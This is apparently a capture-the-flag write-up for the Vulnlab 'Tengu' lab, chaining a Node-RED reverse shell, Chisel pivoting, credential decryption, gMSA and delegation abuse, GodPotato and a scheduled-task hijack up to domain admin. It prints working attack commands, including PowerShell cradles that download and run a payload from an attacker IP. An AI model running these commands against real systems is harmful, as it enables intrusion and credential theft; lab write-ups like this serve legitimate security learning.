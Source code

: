 ```yaml
---
title: VL - Tengu
date: 2024-04-1
categories: [Vulnlab]
tags: [CTF, Windows, Chain, Linux]
pin: true
---
```


## Initial Access
On 10.10.193.119 is a web service running named Node-RED on port 1880 which does not require authentication. We can make a flow which executes a reverse shell on the target system:
```
Inject/Timestamp -> Exec (enter your rev shell in this block) -> debug
```

Save the flow and press the button on the left of the timestamp to execute.

## Internal enumeration
Since almost all ports where closed from the outside we can try to scan from the inside to discover what is running and where. We can start a reverse forward with Chisel:
```
// On target
./chisel_linux client <VPN-IP>:8001 R:1080:socks &
​
// On AttackerBox
chisel server -p 8001 --reverse
```
Since scanning through ProxyChains is a pain in the bum we can transfer a static NMAP over and scan from our first compromised machine which reveals:
```
10.10.193.117:
Not shown: 1146 filtered ports
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos
135/tcp  open  epmap
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd
593/tcp  open  unknown
636/tcp  open  ldaps
3389/tcp open  ms-wbt-server
​
10.10.193.118:
Not shown: 1153 filtered ports
PORT     STATE SERVICE
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
3389/tcp open  ms-wbt-server
```

It is pretty save to assume that .117 is the domain controller. There is also a service running on port 631 listening on 127.0.0.1 if we forward this we see that it is.
In nodered_svc home directory is a hidden folder for node-red which has a hash in flows_cred.json.
```
"$": "7f5ab122acc2c24df1250a30<redacted>"
```
After searching around how the red node works and how it handles credentials i stumbled against ​[extract nodered creds](https://blog.hugopoi.net/en/2021/12/28/how-to-decrypt-flows_cred-json-from-nodered-data/).
By following the steps in the blogpost we can decrypt the password used for mssql.
```
{"d237b4c16a396b9e":{"username":"nodered_connector","password":"DreamPuppy<redacted>"}}
```

## MSSQL user
Since we have credentials we can use our proxy to log into the mssql server:
```
proxychains mssqlclient.py nodered_connector:DreamPuppy<redacted>@10.10.193.118 
```
We have low privileges and can not enable xp_cmdshell to execute system commands. We can check if there are any other databases available:
```
SELECT name FROM master.dbo.sysdatabases;
SELECT * FROM Demo.INFORMATION_SCHEMA.TABLEs;
SELECT * FROM Users;
```
These commands reveals a hash for the user:
```
t2_m.winters:af9cfa9b70e5e90984203087e5<redacted>
```
By throwing this into crackstation we get a password back, we can ssh with these credentials into the first machine we got access to:
```
ssh tengu.vl\\t2_m.winters@10.10.193.119
```

We can simply sudo su and become root. With these same credentials we can run Bloodhound to gather more information:
```
proxychaisn bloodhound-python -d tengu.vl -c All -dc dc.tengu.vl -ns tengu.vl -u t2_m.winters -p <Password> --zip
```
The interesting path that bloodhound reveals is:
- The NodeRed machine can read GMSA password
- Allowed to delegate from the GMSA01$ user which we can dump to the SQL server

## SQL Server
Since we are root now we can use [KeyTabExtract](https://github.com/sosdave/KeyTabExtract) to dump the hash of the machine account, there are multiple tools doing basically the same but this one was the only one that i found without a pip install requirement.
```
python3 keytabextract.py /etc/krb5.keytab
```
We can then use the NTLM hash to dump the GMSA:
```
proxychains netexec ldap dc.tengu.vl -u 'NODERED$' -H <hash> --gmsa
```
With the hash we can start abusing the delegate to the SQL server , we first have to request a ticket for the MSSQLSvc but the user has to be part of the SQL Admins group:
```
proxychains impacket-getST -dc-ip dc.tengu.vl -spn MSSQLSvc/sql.tengu.vl 'tengu.vl/gMSA01$:@sql.tengu.vl' -hashes :8b038ae130a27269ce19d11a8ab1be89  -impersonate 'T1_M.WINTERS'
```
We can now import the ticket:
```
export KRB5CCNAME=T1_M.WINTERS.ccache
```
And login into the SQL server:
```
proxychains mssqlclient.py -k sql.tengu.vl
```
As SQL Admins we can enable xp_cmdshell and execute our reverse shell due to the length limitation of 128 chars we have to retrieve it remotely:

```
enable_xp_cmdshell
xp_cmdshell echo IEX(New-Object Net.WebClient).DownloadString("http://10.8.1.25:8000/s.ps1") | powershell -noprofile
```
We now have a shell, when checking the privs of the user:
```
PRIVILEGES INFORMATION ----------------------  Privilege Name                Description                               State    ============================= ========================================= ======== 
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled 
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled 
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled  
SeImpersonatePrivilege        Impersonate a client after authentication Enabled  
SeCreateGlobalPrivilege       Create global objects                     Enabled  
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

With these privileges we can use god potato and get a shell as SYSTEM:
```
./god.exe -cmd "powershell.exe -nop -w hidden -ep bypass -c IEX(New-Object Net.WebClient).DownloadString('http://10.8.1.25:8000/s.ps1');"
```

## Domain Admin
In C:\ there is a directory named admin which has a powershell script running. When we retrieve the owner of the file:
```
Get-Acl Task.ps1 | Select-Object Owner
```
We notice that a domain admin is the owner of it. By enumerating a bit more we can find a scheduled task for this file:
```
Get-ScheduledTask
```
We can now simply change the content of  Task.ps1 and force the task execution:
```
wget http://10.8.1.25:8000/s.ps1 -o Task.ps1
type Task.ps1
Start-ScheduledTask -TaskName Daily_Checkup
```
Now with a shell back as the DA we can simply log into the DC and get the last flag.
